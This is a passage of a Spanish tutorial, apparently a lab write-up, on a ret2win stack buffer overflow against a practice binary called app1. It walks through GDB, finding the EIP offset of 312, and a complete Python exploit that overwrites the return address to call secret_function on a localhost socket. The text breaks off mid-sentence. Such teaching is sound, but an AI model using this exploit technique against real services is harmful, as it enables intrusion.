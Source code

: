 Vemos que solo tiene NX. No tiene canarios ni PIE, es decir que podemos sobrescribir el stack pero no ejecutar shellcode en el stack. Además las direcciones del código del binario son estáticas, por lo que se puede hacer un buffer overflow de tipo ret2win, en donde sobrescribimos el EIP con la dirección de una función que existe en el binario que nunca se llama de por sí. Podemos ver todas las funciones definidas en el binario usando GDB. Hacemos `gdb ./app1` y dentor de GDB ejecutamos `info functions`:

![image](https://github.com/user-attachments/assets/50d3724e-279c-4504-83b2-c66131279f11)

Vemos una función llamada secret_function. Podríamos intentar llamar a esta función con el buffer overflow.
Antes de nada hay que saber el offset en el cual sobrescribimos el registro EIP. Para eso generamos otra vez un patrón de 500 bytes: `pattern.py -m generate -v 500`. Y ejecutamos otra vez el binario app1 pero esta vez con GDB: `gdb app1` esto lo hacemos para que cuando ocurra el buffer overflow podamos ver el valor de la dirección de retorno. Y mientras el binario escucha por 0.0.0.0:17562, enviamos los 500 bytes. Y cuando ocurre el buffer overflow podemos ver esto:

![image](https://github.com/user-attachments/assets/fc0326a2-9841-4b76-908f-91b73de4c440)

La dirección de retorno vale 0x3262363262353262. Para pasar esto a ASCII hacemos `unhex "3262363262353262" | rev`, unhex para pasarlo de hexadecimal a ASCII y rev porque los bytes estaban ordenados en formato LSB. Y se nos queda la cadena "b25b26b2". Ahora para calcular el offset hacemos `pattern.py -m offset -v b25b26b2` y sale que el offset es 312. Ahora ya sabemos que cuando enviemos 312 bytes al socket, los siguientes 8 bytes son los que van a sobrescribir el EIP. Y lo que vamos a meter en el EIP es la dirección de la función secret_function, así que volvemos a hacer  `gdb app1`, `info functions` y copiamos la dirección que aparezca a la izquierda de secret_function.

Ahora ya tenemos todo lo necesario para el ataque, solo queda hacer el exploit en python:

```
#!/usr/bin/python3

from pwn import p64
import socket

payload = b'A' * 312 + p64(0x00000000004011b6)

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

sock.connect(("127.0.0.1", 17562))

sock.recv(1024)

sock.send(payload + b'\r\n')

sock.close()
```

Creamos el payload, que serían los 312 bytes de relleno más la dirección de la función secret_funtion (siempre es la misma porque el binario no usa PIE). Creamos un socket que use IPv4 y TCP. Lo conectamos al socket del binario. Recibimos 1024 bytes, correspondientes al texto "Escribe algo:" que nos envía el binario. Enviamos el payload y cerramos el socket.

Si ejecutamos el binario y luego este exploit veremos que conseguimos llamar a la función secret_function. Y además el binario escribe esto:
